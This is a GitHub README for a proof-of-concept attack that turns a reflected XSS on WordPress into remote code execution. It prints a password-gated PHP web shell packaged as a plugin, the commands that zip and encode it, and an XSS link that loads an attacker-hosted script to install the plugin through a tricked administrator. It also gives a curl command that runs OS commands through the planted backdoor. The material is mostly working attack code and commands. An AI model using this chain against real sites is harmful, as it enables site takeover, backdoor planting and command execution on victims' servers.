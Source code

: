 # [authn] Install Plugin (RCE)

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps
1. [create backdoored CMS module] backdoor source code

    * **NOTE**: update/customize PHP backdoor in `WP_PoC.php`

    (`WP_PoC.php`)

    ```
    <?php
    /**
     * Plugin Name: WP RCE PoC - Install Plugin
     * Version: 1.0.0
     * Author: WP Admin
     * Author URI: https://localhost
     * License: GPL2
     */
    if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
    ?>
    ```

2. [create backdoored CMS module] create WordPress plugin

    ```
    zip WP_PoC.zip WP_PoC.php
    ```

3. [create backdoored CMS module] base64-encode generated plugin file (**NOTE**: avoids encoding issues)

    ```
    cat WP_PoC.zip | base64 -w0 > WP_PoC.txt
    ```

4. [setup exploit] change payload variable values (`installPluginWP.js`)

    `pluginURL` - URL of WordPress plugin (containing backdoor) to be installed on target site

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/wordpress"`)

5. [setup exploit] setup web server (to serve the payload/plugin)

6. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.10/wp-login.php

7. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/rxss.php?q=<script src=http://192.168.5.5/installPluginWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.5` - web server hosting the payload

8. [post exploit] execute OS command

    ```
    curl -s "http://192.168.5.10/wp-content/plugins/WP_PoC/WP_PoC.php?pass=test&cmd=id" | head -n 1
    ```

    * **NOTE**: module URL constructed based on name of installed module

9. [uninstall module] uninstall module via GUI

    *WordPress ➔ Plugins ➔ Installed Plugins ➔ [WP RCE PoC - Install Plugin] Delete ➔ OK*

## Screenshot

* **NOTE**: the screenshot covers steps 1 to 8 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/InstallPlugin/screenshots/WordPress_-_install_plugin_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/InstallPlugin/screenshots/WordPress_-_install_plugin_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/e2a5fa16-2636-43f0-9761-f1c22b479263
